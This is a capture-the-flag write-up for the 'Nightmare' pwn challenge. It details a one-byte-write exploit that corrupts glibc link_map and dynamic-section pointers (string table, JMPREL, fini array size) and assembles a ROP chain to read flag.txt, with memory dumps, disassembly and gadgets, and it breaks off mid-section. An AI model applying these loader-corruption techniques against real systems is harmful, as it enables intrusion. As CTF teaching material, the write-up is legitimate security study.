








# Nightmare: One Byte to ROP // Alternate Solution

## TLDR: One byte write, no leak.

1.   Infinite loop through overwrite of binaries link map
2.   Determination of useful rop gadget, has to fit several extensive criteria
3.   Partial overwrite of DT_JMPREL table pointer
4.   Partial overwrite of DT_STRTAB pointer
5.   Overwrite of LIBC link map
6.   Loop 2-5 until rop chain has been created
7.   Partial overwrite of DT_FINI_ARRAYSZ pointer
8.   Use 3 & 4 to call exit, to call rop chain

## Prologue

This challenge was extremely difficult and I recommend reading the original author's writeup to see how intense the intentional method is, https://hackmd.io/@pepsipu/ry-SK44pt. Now with that mentioned, I'm going to show you a method that ignores most of the primatives stated in the article and go a complete different approach that even the author thought was impossible.


The images above show the struggle that is about to be encountered and not to harass or cause any trouble.

I won't go into every approach I took on this challenge as the first 3ish days I took a wrong approach that I think will turn into a nice ctf challenge in the future so look out for a modified nightmare in the future. 

Next, to fully get a understanding of this challenge I recommend looking up some `ret2dlresolve` writeups and learning about the different structures used in looking up a function during lazy loading.

Lastly, ~~I was not able to get a final working solution on remote and I think this has to do with some offset being incorrect~~, I was able to get a working version on the remote while writing this writeup, just took a bit of time and thinking to figure out what was wrong, it was because the remote had a different offset than local version, but previously this was because of a bad rop gadget I was using, who would of guessed that puts will call different functions depending on CPU capabilities. Any address that I use in the writeup, I'll try to keep consistant, but these values are not the same as the remote version so don't worry about them too much. With this all said, I'll start with the actual walkthrough!

Lastly 2, sorry for such a long writeup, I wanted to share as much detail but still kept most of the useless information out. So if you want you can probably skip to the sections you are most interested in.

## Description and hint 1 & 2

```Can you pwn when you can't see?
Can you pwn when you can't see?

Hint: Partial RELRO? That sounds like a really complex surface...

Hint 2: What happens if Exit doesnt exit?

nc mc.ax 31477
```


## Setup and Reversing

Upon downloading the files and extracting from the zip, we are given a README.md file giving the description below.

``````
## Setup

Nightmare is an extremely environment sensitive challenge. It's important your environment is as accurate as possible.
Tools such as patchelf will clobber continuity between local and remote. Please take care making changes.

You might have noticed that no libc was shipped with this challenge. This is intentional. Please do NOT try to exploit
the binary outside of the provided Docker and utilize the libc and ld within the docker.

You are safe to install tools and other items in the docker. The docker tag is `ubuntu@sha256:cc8f713078bfddfe9ace41e29eb73298f52b2c958ccacd1b376b9378e20906ef`.

### Symbols

You can install debug symbols by installing libc6-dbg package. From there, please do NOT unstrip the global libc and ld.
Make a copy and unstrip them without affecting /usr/lib. An unstripping script is provided.

## Remote

Nightmare's remote requires you to submit a static payload to the program. This payload will then be sent to 8 different instances of Nightmare, all of which have `stdout` hidden from the competitor. This prevents leaking ASLR base and bruteforce. In order to submit a payload, simply:

- Send the size of the payload packed as a 8 byte integer
- Send the payload

## Security Measures

The seccomp used can be found in `bin/filter.s`.

``````

So given this information lets first check the seccomp, I'm privy to using `seccomp-tools` to determining the seccomp in place

```
# seccomp-tools dump ./nightmare
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x08 0x00 0x00000000  if (A == read) goto 0012
 0004: 0x15 0x07 0x00 0x00000001  if (A == write) goto 0012
 0005: 0x15 0x06 0x00 0x00000002  if (A == open) goto 0012
 0006: 0x15 0x05 0x00 0x0000003c  if (A == exit) goto 0012
 0007: 0x15 0x04 0x00 0x000000e7  if (A == exit_group) goto 0012
 0008: 0x15 0x01 0x00 0x00000009  if (A == mmap) goto 0010
 0009: 0x05 0x00 0x00 0x00000003  goto 0013
 0010: 0x20 0x00 0x00 0x00000020  A = prot # mmap(addr, len, prot, flags, fd, pgoff)
 0011: 0x45 0x01 0x00 0x00000004  if (A & 0x4) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```

We can see we are only allowed read, write, open, and mmap as somewhat useful gadgets... except that the the extra restriction on the prot argument of mmap, disallows `PROT_EXEC` from any chunks we create, so this seems less useful.

Let's start reversing.



This is a relatively clear main, so we are looking for something else. We can see a function called `nightmare` and after some digging you can find that this is called in `__libc_csu_init` being a part of the `_init_array` list. 



So looking at the actual `nightmare` function we can see a check to the data at `chunk`, which may seem weird for function that should only run once... *hint hint*. A `malloc` of a large size is stored in `chunk` and a call to the seccomp setup, the seccomp is normal setup and I don't believe there is anything new being done that requires a further analysis.



Next we have the actual meat of the function, there are 2 reads, one of 8 bytes and another of 1 byte. The first 8 bytes are used as an offset of the malloced chunk and the 1 byte is written to that location. After this a call to `write` and then `_Exit`.

#### Notes:

There are 2 things to realize from this analysis so far, first is the `malloc`. Typically, mallocs of large sizes will need to invoke a new `mmap` call, this call creates a new page in the memory map scene and usually will be located at the same offset from libc. The memory map below is just an example on my host system and does not use the correct environment but will suffice for the example:

```
0x00007ffff7dd8000 0x00007ffff7dda000 0x0000000000000000 rw- 										<-- newly mmapped chunk
0x00007ffff7dda000 0x00007ffff7e00000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.32.so
0x00007ffff7e00000 0x00007ffff7f49000 0x0000000000026000 r-x /usr/lib/x86_64-linux-gnu/libc-2.32.so
0x00007ffff7f49000 0x00007ffff7f94000 0x000000000016f000 r-- /usr/lib/x86_64-linux-gnu/libc-2.32.so
0x00007ffff7f94000 0x00007ffff7f95000 0x00000000001ba000 --- /usr/lib/x86_64-linux-gnu/libc-2.32.so
0x00007ffff7f95000 0x00007ffff7f98000 0x00000000001ba000 r-- /usr/lib/x86_64-linux-gnu/libc-2.32.so
0x00007ffff7f98000 0x00007ffff7f9b000 0x00000000001bd000 rw- /usr/lib/x86_64-linux-gnu/libc-2.32.so
```

The malloc'd chunk in this example is located at `0x00007ffff7dd8010` and will always be at the same offset from libc, now take note that this will depend on your kernel and libc version, this comes into play later.  From this, we also know that the ld is typically at a constant offset from libc as well.

Second, now this doesn't play as big of a role in this challenge but there is a difference between the function `Exit` and `_Exit`. `Exit` will ultimately call another function called `__run_exit_handlers` while `_Exit` will flat out use the `system call exit` right away without calling any extraneous functions. Not too important for this exploit but does come into play with different exploits.

## Infinite Loop

With our ability to write one byte we are extremely limited, luckily we can write to anything that is writeable in libc or the ld. So we need to find something good to write to that allows us to get more functionality or more writes. Now at the beginning of this challenge, I didn't know exactly where to write to so I wrote a *quick* brute force script to find an address that would cause the program to hang that we could work with, my thought being that this means we found a way to call nightmare again. I'm not going to share the actuall script but imagine a loop that goes over all writeable addresses by sequence of 8 bytes and testing all 256 bytes for something that works. Luckily I found 2 hits, 33 and 40, both at the same address ld+0x36220 and looking at this address we see this:

```
0x7ffff7ffe220:	0x0000555555554000	0x00007ffff7ffe7c8
0x7ffff7ffe230:	0x000055555555a000	0x00007ffff7ffe7d0
0x7ffff7ffe240:	0x0000000000000000	0x00007ffff7ffe220
0x7ffff7ffe250:	0x0000000000000000	0x00007ffff7ffe7b0
0x7ffff7ffe260:	0x0000000000000000	0x000055555555a010
0x7ffff7ffe270:	0x000055555555a0f0	0x000055555555a0e0
0x7ffff7ffe280:	0x0000000000000000	0x000055555555a090
0x7ffff7ffe290:	0x000055555555a0a0	0x000055555555a120
0x7ffff7ffe2a0:	0x000055555555a130	0x000055555555a140
0x7ffff7ffe2b0:	0x000055555555a0b0	0x000055555555a0c0
0x7ffff7ffe2c0:	0x000055555555a020	0x000055555555a030
0x7ffff7ffe2d0:	0x0000000000000000	0x0000000000000000
```

Some of the addresses may be hard to recognize right away, but the first pointer is the address where our binary is loaded, now I'm not 100% confident but I believe that this chunk of data is refered to as the link map of the binary. A crappy description of this structure would be a structure that holds pointers to important information used in the binary, sorry but I couldn't refind the blog post about it I read during research, but we will notice that this address is also stored before the binary GOT in memory

```
0x555555558000:	0x0000000000003df8	0x00007ffff7ffe220				<---- Link map
0x555555558010:	0x00007ffff7fe0ee0	0x0000555555555036				<---- _dl_runtime_resolve | exit_plt
0x555555558020 <__stack_chk_fail@got.plt>:	0x0000555555555046	0x00007ffff7eaf900
```

Now we need to take an in depth look into what happens when we overwrite the first pointer in the link map. As we know during a function call the instruction flow is actually sent to the `plt`, then from there a lookup from the GOT, and if this is not found we make a call to `_dl_runtime_resolve`, this function ultimately sets up a call `_dl_fixup` with the linkmap and the offset for the function as the arguments, `_dl_fixup` is responsible for calling other functions that actually lookup of your function by using pointers in the link map, storing this value in the got, then ultimately returning the address to `_dl_runtime_resolve` where it jmps to the function it looked up.

If you remember our brute force was able to find a write of either 33 or 40 to the link map, what does this mean though. As it turns out, in `_dl_fixup` the first pointer in the link map is used for a base to write for the got address, the offset being the value specified in the JMPREL table in the binary.



Normally, write would be stored at `binary+0x4018`, but by placing `40` we now fool `_dl_fixup` to store the address of write at `binary+0x4018+40` or `binary+0x4040`, which happens to be the got address for `_Exit`. Instead of `_Exit` being looked up, we just end up calling write instead, if you remember back to the reversing function there is no ret call after the `_Exit`, instead whatever function next will be called, this happens to be `main` then `_libc_csu_init`, which is the function that calls `nightmare` for us. This is how our infinite loop works for us, now if you are looking closely you may notice that `RDI` is set to 0 before the `_Exit`,(`write`), call and think that the program is writing to stdin, but write just fails in this instances so we don't need to worry about anything.



You may remember that both 33 and 40 worked as values, if you look at 33 this is actually a partial overwrite of the `_Exit` GOT value with the upper byte of the address of the `write` function in libc, 0x00. Instead of normally pointing to its plt section at of 0x1086 it now points to 0x1000, which happens to be `_init_proc` and this calls `_gmon_start__` which will call `__libc_csu_init` for us.



Either should work, but they will effect the stack differently if you plan to implement this yourself and use different rop gadgets later on.

## Function Lookup

At this point, we have an infinite write but what do we really target, we also have an infinite lookup for the function `write`, as we never overwrite it's GOT address and instead overwrote `_exit`. If we keep looking through `_dl_fixup` we will notice that several of the pointers are referenced to determine what function should be found, one of these is `link_map+0x68`, or the string table lookup pointer. Since we don't know where we are in memory binary or libc wise, we are stuck with partial offsets, luckily for us, there happens to be a pointer nearby that points to a variable called `_r_debug`, more importantly a writeable piece of memory.

```
0x558e56a95e78:	0x0000000000000005	0x0000558e56a92500			<-- string table
0x558e56a95e88:	0x0000000000000006	0x0000558e56a923e0
0x558e56a95e98:	0x000000000000000a	0x00000000000000b6
0x558e56a95ea8:	0x000000000000000b	0x0000000000000018
0x558e56a95eb8:	0x0000000000000015	0x00007f9cb24ca100			<--- _r_debug
```

If we set a string at `_r_debug+0x4b`, the original offset into the string table for the write function name, we can now call whatever function we want. At this point I got stuck for a bit as I couldn't figure out a great primative to do anything with this, as we don't control the arguments and we only call the beginning of each function, what can we do? If we utilize the same primative we used to overwrite `_Exit` GOT we can write to the memory after the GOT, but we are limited to 0xfe-ish bytes past the `_Exit` got.  

At this point I was stuck, so I wrote another brute force to try and find something useful... This one was with a modified nightmare binary that allowed me to write 8 bytes at once to an address, this allowed me to quickly search for any segfaults that occur that we could maybe use. After some checking I found one at `libc+0x228000`, in the memory map between the libc and the ld,

```
0x7f9cb2490000:	0x00007f9cb2268000	0x00007f9cb24caee0
0x7f9cb2490010:	0x00007f9cb247fbc0	0x00007f9cb24c9a48
0x7f9cb2490020:	0x00007f9cb24ca7d0	0x00007f9cb2490000
0x7f9cb2490030:	0x0000000000000000	0x00007f9cb2490490
0x7f9cb2490040:	0x0000000000000000	0x00007f9cb247fbc0
0x7f9cb2490050:	0x00007f9cb247fc70	0x00007f9cb247fc60
0x7f9cb2490060:	0x00007f9cb247fc00	0x00007f9cb247fc20
0x7f9cb2490070:	0x00007f9cb247fc30	0x00007f9cb247fca0
0x7f9cb2490080:	0x00007f9cb247fcb0	0x00007f9cb247fcc0
0x7f9cb2490090:	0x00007f9cb247fc40	0x00007f9cb247fc50
0x7f9cb24900a0:	0x0000000000000000	0x0000000000000000
0x7f9cb24900b0:	0x00007f9cb247fbd0	0x0000000000000000
```

This chunk of memory actually has the same layout as our binary link_map, and infact is libc's link_map. The pointers here point to all sorts of goodies such as the function lookup table, which I didn't even attempt to forge as I thought it would be too much of a pain to work out custom functions, if it's even possible. That's a whole sub series of libc internals I want to stay away from. Now, when we overwrite this first pointer we get a segfault when trying to jump to what should be the function offset of write from inside `dl_runtime_resolve`. With `RIP` being `0x1179a0`, or the exact offset to write from the beginning of libc, so with a partial overwrite of this it looks like we can now control an offset into a function to call, similarly to our write ability with our binary.

## PIVOT

The previous primative sounds perfect for gadgets... kind of. You have to remember that any gadget we use will ultimately be called during the lookup, we will need to make a chain that effectively can be called in the moment as well as be stored in memory utilizing our past GOT write, with these we can setup a chain after the pivot to. How do we actually pivot to it though? We don't control any arguments or registers when the gadgets are called, and there is NO useful data on the stack that points anywhere near where our chain would be. So how do we get to our chain, this is a little out of order as I thought this had to be the intended way and was confident a pivot existed, and was later crushed by the author when his hints made it sound like this was impossible but one hint did help. On the last night, after learning that he had full control of the arguments for _dl_lookup, which at this point I thought was a dream.

​											 		

Even though at this point I knew our approaches were different enough to merit almost giving up, I hoped that maybe there was something of use here, looking at the source code I found one glimmer of hope.

```c
			  while (i-- > 0)
			    ((fini_t) array[i]) ();
```

Now how do we get there, as nice as our lookup primative is, it doesn't actually work for all functions and symbols and as such we can't use our fake string table to fake a call to `_dl_fini`. Testing out some different things, I started to wonder if other functions would reference it, the big target being the regular `Exit` function, as the name `_dl_fini` suggests maybe this is something that should be called to help clean up memory and a binary, and lo-and-behold we are greeted with execution passing through `_dl_fini` after calling `Exit`. After some digging, we are able to determine that this `fini_t array` above in the source code is actually the `fini array` from our binary, at `binary+0x3df0`. 

If you don't know about the `dtors/fini_array`, it is a list similar to the one that houses the `nightmare` call in the beginning of the program usually called the `_init_array`, but the opposite, instead of helping build up for the binary to execute, it helps tear it down, currently all that is in this list is a pointer to the binary's function `__do_global_dtors_aux`. To me the code can be a bit obscur as to how the fini_t array is set but I'll show you anyways

```c
			  ElfW(Addr) *array =
			    (ElfW(Addr) *) (l->l_addr
					    + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
			  unsigned int i = (l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val
					    / sizeof (ElfW(Addr)));
			  while (i-- > 0)
			    ((fini_t) array[i]) ();
```

If you can't figure out what is happening here just by looking I don't blame you, but what if I told you that `l` is our binary `link_map`. Then it may make a more sense, so this is saying that `l->addr + l->l_info[fini_array]->ptr` is our array, or more precisely. ``Binary address + fini_array offset``, but it is important to realize that we can overwrite the pointer to `fini_array offset` and the original `Binary address`, as they both are stored in the `link_map`; problem is, we still can't get a pivot to our fake stack this way:

```
0x558e56a95e08:	0x000000000000000c	0x0000000000001000
0x558e56a95e18:	0x000000000000000d	0x0000000000001478
0x558e56a95e28:	0x0000000000000019	0x0000000000003de0	<--- fini array offset
0x558e56a95e38:	0x000000000000001b	0x0000000000000010
0x558e56a95e48:	0x000000000000001a	0x0000000000003df0	<--- init array offset
0x558e56a95e58:	0x000000000000001c	0x0000000000000008  <--- fini array size
0x558e56a95e68:	0x000000006ffffef5	0x0000558e56a923c0
0x558e56a95e78:	0x0000000000000005	0x0000558e56a92500
0x558e56a95e88:	0x0000000000000006	0x0000558e56a923e0
0x558e56a95e98:	0x000000000000000a	0x00000000000000b6
0x558e56a95ea8:	0x000000000000000b	0x0000000000000018
0x558e56a95eb8:	0x0000000000000015	0x00007f9cb24ca100
0x558e56a95ec8:	0x0000000000000003	0x0000558e56a96000
0x558e56a95ed8:	0x0000000000000002	0x0000000000000090
0x558e56a95ee8:	0x0000000000000014	0x0000000000000007
0x558e56a95ef8:	0x0000000000000017	0x0000558e56a926d8
```

We could try to move the `fini_array offset` to point to something else, but you still need to remember we are dealing with only single byte overwrite, so we will need so stay in the same byte range, sadly no offsets would get us to our fake stack, but you may have noticed 2 things, first the fini array offset is off by 8 bytes from where it actually is in memory. Looking back at the source, you may see the variable `i` being set and used as an index, so we are effectivly starting at index 1 and not going lower than that. But this `i` variable is set from the link map as well so what if we forged the size since it seems to be going from the top index to the bottom first, 0x90 or 0xb6 look like good targets but are still not enough to get us from index 0x3de0, `fini array`, to 0x4010+, our rop chain location. What about the 0x1000 at the top of the list though, using that we now make the program think fini array has 0x200 indexes and will start at 0x4de0, or writeable memory. Only problem is, we currently can only write 0xfe-ish past `_Exit` GOT, approx 0x4100, no where near 0x4de0. 

 I got stuck here for a bit thinking that all the hopes and dreams for a perfect setup had been squashed, until I did some testing, below is the `_r_debug`  data.

```
0x7f9cb24ca100 <_r_debug>:	0x0000000000004db0	0x00007f9cb24ca207
0x7f9cb24ca110 <_r_debug+16>:	0x00007f9cb24a6170	0x0000000000000000
0x7f9cb24ca120 <_r_debug+32>:	0x00007f9cb2494000	0x0000000000000000
0x7f9cb24ca130:	0x0000000000000000	0x0000000000000000
0x7f9cb24ca140:	0x0000000000000000	0x0000000000000000
0x7f9cb24ca150:	0x0000000000000000	0x0000000000000000
0x7f9cb24ca160:	0x0000000000000000	0x0000000000000000
0x7f9cb24ca170:	0x0000000000000000	0x0000000000000000
```

At the time, I was under the impression that this data was important and actually thought it was referenced during `_ld_fixup`, but I thought it was worth a try and zeroed it out, to my surprise no crash. This is the target now. If you remember back, our fake string is located at `_r_debug+0x4b`, and if we can fake the string table why not fake the `jmp_rel` table, as this holds the offset into the binary to truely store the address loaded from `_ld_fixup`, look how lucky this turned out to be:

```
0x558e56a95e08:	0x000000000000000c	0x0000000000001000
0x558e56a95e18:	0x000000000000000d	0x0000000000001478
0x558e56a95e28:	0x0000000000000019	0x0000000000003de0	<--- fini array offset
0x558e56a95e38:	0x000000000000001b	0x0000000000000010
0x558e56a95e48:	0x000000000000001a	0x0000000000003df0	<--- init array offset
0x558e56a95e58:	0x000000000000001c	0x0000000000000008	<--- fini array size
0x558e56a95e68:	0x000000006ffffef5	0x0000558e56a923c0
0x558e56a95e78:	0x0000000000000005	0x0000558e56a92500  <-- string table
0x558e56a95e88:	0x0000000000000006	0x0000558e56a923e0
0x558e56a95e98:	0x000000000000000a	0x00000000000000b6
0x558e56a95ea8:	0x000000000000000b	0x0000000000000018
0x558e56a95eb8:	0x0000000000000015	0x00007f9cb24ca100	<--- _r_debug
0x558e56a95ec8:	0x0000000000000003	0x0000558e56a96000
0x558e56a95ed8:	0x0000000000000002	0x0000000000000090
0x558e56a95ee8:	0x0000000000000014	0x0000000000000007
0x558e56a95ef8:	0x0000000000000017	0x0000558e56a926d8	<-- jmp_rel table
```

With this being on the same 0x100 boundary as `_r_debug`, we can point it at `_r_debug` and now have a fake `jmp_rel` index to write to the 0x4de0 offset we need! With that we can finally create the chain load it into a `fake fini array` location and jump down the chain.

## ROP Till You Drop

I know what you are thinking, the hardest part is done and all that needs to be done is create the chain and win, that is where you would be wrong. If I had to guess I would say that this is the worse part of the challenge and took over 80% of my time on this challenge. For the following reasons,

1. Each gadget that is stored in our array, will be called in the `_dl_runtime_resolve` function. This means no gadgets that pop from the stack, or modify `RSP` as we need a way to get back to our `nightmare` function successfully.

2. Each gadget can be at an offest of at most 0xff from a valid function lookup, I don't know how many times I found a gadget I wanted, but the symbol wouldn't resolve, or I found a perfect gadget but it isn't near a function

3. The function that houses our gadget has to have a return primative that lines up with write as well, this is kind of vague but let's think this through. Our primative for this exploit is essentially a 1 byte write; then for a lookup we need to setup a string in memory, point to this string, then change to an offset into this function to store in our fini array. This can't be done all at once, we _need_ to have a setup where we can do all this things without crashing or referencing data from a register that isn't a pointer. This means jumping into an offset of write, then changing to our function, changing to the address we want to store, change our stack pointer so we don't overwrite it, change back to the old address of our function, then change back to write, rinse repeat.

4. We can't use the `RDX` register, this may be a bit confusing but look at the assembly below from `_dl_fini`:

   ```assembly
      0x00007ffff7fe2483 <+403>:	mov    r14,QWORD PTR [rax+0x8]
      0x00007ffff7fe2487 <+407>:	mov    rax,QWORD PTR [r15+0x120]
      0x00007ffff7fe248e <+414>:	mov    rsi,QWORD PTR [r15]
      0x00007ffff7fe2491 <+417>:	mov    rdx,QWORD PTR [rax+0x8]
      0x00007ffff7fe2495 <+421>:	add    rsi,r14
      0x00007ffff7fe2498 <+424>:	shr    rdx,0x3
      0x00007ffff7fe249c <+428>:	mov    QWORD PTR [rbp-0x38],rsi
      0x00007ffff7fe24a0 <+432>:	lea    eax,[rdx-0x1]
      0x00007ffff7fe24a3 <+435>:	lea    r14,[rsi+rax*8]
      0x00007ffff7fe24a7 <+439>:	test   edx,edx
      0x00007ffff7fe24a9 <+441>:	je     0x7ffff7fe24c0 <_dl_fini+464>
      0x00007ffff7fe24ab <+443>:	nop    DWORD PTR [rax+rax*1+0x0]
      0x00007ffff7fe24b0 <+448>:	call   QWORD PTR [r14]					<-- call our array item
      0x00007ffff7fe24b3 <+451>:	mov    rdx,r14
      0x00007ffff7fe24b6 <+454>:	sub    r14,0x8							
      0x00007ffff7fe24ba <+458>:	cmp    QWORD PTR [rbp-0x38],rdx
      0x00007ffff7fe24be <+462>:	jne    0x7ffff7fe24b0 <_dl_fini+448>
   ```

   `R14` points to our fini array and will be called at line 448, but after it stores this value into `RDX` thereby clobbering any data we store in there, this wouldn't be a problem if read, write, and partially open didn't all use `RDX` as the third argument. You may be thinking, *why not just pivot to the stack  at this point if rdx points to your fini array, a call to setcontext would get you a win*, but don't forget point 1 above. All stored values need to be called at least once, so a pivot to rdx will crash our program way before this issue comes up.

In my opinion all of these points turned out to be the hardest aspects of this challenge. Hence the name of this section, ROP till you drop, I began to understand why the author thought this was impossible. 

So the next section will just show the gadgets I was able to find then will put it all together into a coercive chain to understand. I don't think I can articulate the approx 20+ hours probably spent just looking for ROP gadgets. I also won't show the offsets that I had to find within write and them so I could load it into memory successfully. If you want to see them all they are in the exploit file.

## RSI Gadget

Looking for gadgets we should lay out what we actually need to do, 

````
mov rax, 2
mov rdi, "flag.txt/x00"
mov rsi, 0
syscall = open syscall
mov rdi, rax
mov rax, 0
mov rsi, {Buffer} for flag to read to
mov rdx, value less than 0x1000 (I'll explain below)
syscall = read syscall
mov rax, 1
mov rdi, 1
mov rsi, {Buffer} To print out flag
mov rdx, value less than 0x1000
syscall = write syscall
**Crash gloriously in victory**
````

 This entire chain is dead if we can't load `flag.txt`, so this may be one of the most important gadgets. I actually accidently stumbled upon this this gadget as I was working on a dead end earlier and had far harder constraits to work with. But behold, 

```assembly
   0x7f9cb238a8f0 <hcreate>:	endbr64 
   0x7f9cb238a8f4 <hcreate+4>:	lea    rsi,[rip+0xfe835]        <--writeable address
   0x7f9cb238a8fb <hcreate+11>:	jmp    0x7f9cb238a900 <hcreate_r>
   0x7f9cb238a900 <hcreate_r>:	endbr64 
   0x7f9cb238a904 <hcreate_r+4>:	test   rsi,rsi
   0x7f9cb238a907 <hcreate_r+7>:	je     0x7f9cb238a9bb <hcreate_r+187>
   0x7f9cb238a90d <hcreate_r+13>:	push   rbx
   0x7f9cb238a90e <hcreate_r+14>:	xor    eax,eax
   0x7f9cb238a910 <hcreate_r+16>:	cmp    QWORD PTR [rsi],0x0
   0x7f9cb238a914 <hcreate_r+20>:	mov    rbx,rsi
   0x7f9cb238a917 <hcreate_r+23>:	je     0x7f9cb238a920 <hcreate_r+32>
   0x7f9cb238a919 <hcreate_r+25>:	pop    rbx
   0x7f9cb238a91a <hcreate_r+26>:	ret    
```

You can look up the function in further detail but it effectively will create a memory space for a hash table, unless it decides a hashtable has already been created, but the best part is that the address loaded is writeable and we can put "flag.txt" there before we jump to our chain. You may thinking that this is somewhat pointless as `RSI` is not `RDI` and we still can't open it, but what would be the second most important part of the chain?

## Syscall and Friends

You probably think that this is an easy gadget to secure, and boy would you be wrong. Thinking this through, we need an open syscall first, why not just call open, since we should be able to look it up and it should pass as syscalls usually don't cause segfaults but just fail. This is why, here are the only two syscalls in the open function:

```assembly
   ...
   0x7f9cb237f664 <open64+84>:	mov    eax,0x101
   0x7f9cb237f669 <open64+89>:	syscall 
   ...
   0x7f9cb237f6dd <open64+205>:	mov    eax,0x101
